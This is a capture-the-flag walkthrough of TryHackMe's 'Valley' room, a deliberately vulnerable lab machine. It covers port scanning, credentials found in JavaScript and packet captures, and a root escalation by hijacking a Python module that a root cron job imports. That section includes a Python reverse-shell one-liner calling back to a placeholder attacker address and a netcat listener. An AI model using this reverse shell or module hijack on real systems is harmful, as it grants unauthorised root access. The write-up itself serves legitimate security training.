# Valley

## Overview

### In this writeup we will look into the  [Valley](https://tryhackme.com/room/valleype) room from [TryHackMe](https://tryhackme.com/).

## Enumeration

### Lets see what ports are open. I am using nmap.

#### Command:

```bash
nmap -T4 -p- -A 10.10.40.56
```
#### Output:
```nmap
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-27 04:28 EDT
Nmap scan report for 10.10.40.56
Host is up (0.087s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c2:84:2a:c1:22:5a:10:f1:66:16:dd:a0:f6:04:62:95 (RSA)
|   256 42:9e:2f:f6:3e:5a:db:51:99:62:71:c4:8c:22:3e:bb (ECDSA)
|_  256 2e:a0:a5:6c:d9:83:e0:01:6c:b9:8a:60:9b:63:86:72 (ED25519)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
37370/tcp open  ftp     vsftpd 3.0.3
Service Info: OSs: Linux, Unix; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.10 seconds
```

### We have a website, SSH and FTP.
* With SSH we can't do much at this point.
* We can check FTP for anonymous login. In this case we don't have anonymous access.
* We are left with the website on port 80. 

### Lets take a look at the website.


### After clicking around I found 3 subdirectories.
* gallery - has an html page with a collection of images.
* static - where the images are stored.
* pricing - has an html page about pricing.

### Directory busting
Lets do some directory busting with the subdirs we found.

My tool of choice is **gobuster**.

### I will run gobuster on the root of the website as well as the three subdirs we found.
* Root dir

* gallery

* pricing

* static


The results are mostly expected. Except there is something interesting in *static*.


The files we see are actual images and we can tell that by the size. 
But ***00*** does not match this pattern. Lets take a look.


Looks like it is a dev note. I have highlighted in red the things we can make use of. **valleyDev** could be a username. Lets take note of it. And this subdirecotry definitely looks suspicious.



### Nice! We have a login portal.

### I tried some default credentials.
* admin/admin
* valleyDev/valleyDev
* valleyDev/admin
* admin/valleyDev

### None of them seem to work. We are going to have to look for something else. Perhaps the source.


### We can see some JS scripts that could be of interest.
* dev.js 


* button.js 


Looks like we have credentials on *dev.js* script. A file in the subdirectory is also revealed and we can see that we are redirected to it when we authenticate. So we can either enter those credentials or directly access the file.


### Here we can find more hints. The ones highlighted in red suggest that the credentials we found in *dev.js* are probably reused on ftp. 


Lets see what we can work with.


### Looks like we have some packet capture files. Lets download them to our local machine for analysis.


### Now we need a packet analyser. I will use **wireshark**.
* siemFTP.pcapng (Rabbit hole)
    * Not a lot of packets in this file.
    * Judging from the name I set an ftp filter and followed tcp stream.
    
    
    Nothing interesting here.
    * Actual file transfers in ftp happen with the **ftp-data** protocol so lets filter for that. We see some traffic. Lets follow the stream again.
    
    
    * Looks interesting at first but the files appear to be 0 bytes. Lets try to export them anyway.
    
    
    * Well, nothing. Thankfully we have more capture files. Lets move on to the next one.
* siemHTTP1.pcapng (Rabbit hole)
    * Lets set an HTTP filter.
    
    * Could not find anything interesting. Lets try to export the objects from the http conversation.
    
    
    
    * After checking every file I could not find anything interesting. Lets move on to the last file.
* siemHTTP1.pcapng (Win)
    * Lets export http objects.
    
    
    
    * We see multiple index.html files. Lets check them.

    
    * We found more credentials!
    * Now lets go back in wireshark and find out where they come from. Lets set an http filter.
    
    * After looking around we find a POST request. Lets follow the HTTP stream.
    
    

## Exploitation

### Now that we have more credentials we can try them against FTP and SSH.
* No success on FTP but surely enough we got a successful login on SSH.


## Privilege Escalation

### In the home direcotry there is an interesting executable file.

### When run it asks for credentials. I used the ones we already found but it didn't like them.

### We might need to download this file for further analysis. Lets use python http server.



### At first I tried to decompile it and analyse it with ghidra but it was difficult to understand the decompiled code. I assume the binary being statically linked and stripped has to do with that. It might also be packed.


### After no success with ghidra I decided to check the strings.


### Now I slowly scrolled thorugh the file and looked for something that stands out.



### Here I found the words user, pass and a few strings that don't look like the rest. Lets check if any of these is some kind of hash.



### Looks like crack station has something for us. Now lets figure out for which user this password is.



### We can see we have only one user whom we still don't know the password.




### Now I decided to check id command, any sudo rights our user has, and if there are any cronjobs.



### No luck on sudo rights, but we found an interesting group our user is in and a very suspicious cronjob. Lets check the script.



### It is owned by root so we can't modify it. It seems to encode images every minute.

### Lets go back and take a look at the group we are in. We can look for any files the group has permission over with the following command
```bash
find / -group <group>
```



### I have also redirected ***stderr*** to ***/dev/null*** to not see error messages.

### We can see the group has full access to **python3.8** folder and **base64.py** file.




### Recall that the script we found earlier uses base64 module to encode the images. We can modify the base64 file and add code we want to run because the ***valleyAdmin*** group we are in has permission to do so. Any code we add to the base64 module will be executed with root privileges because the root user is the owner of the cronjob.

### So let's set up a reverse shell. I will be using this one from a cheat sheet online:

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<Port>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])
```

### Lets slap it in the ***base64*.py** file.



### And set up a netcat listener.
```bash
nc - nvlp <Port>
```

### We got a root shell.



## Final thoughts

### [Valley](https://tryhackme.com/room/valleype) is a room where we have to combine our knowledge about web exploitation, file transfers, packet analysis, binary analysis and privilege escalation in order to achieve root access. Overall it was a very fun room to go thorugh and I really enjoyed it!

Best Regards, 

[qqmba](https://tryhackme.com/p/qqmba)


    


    


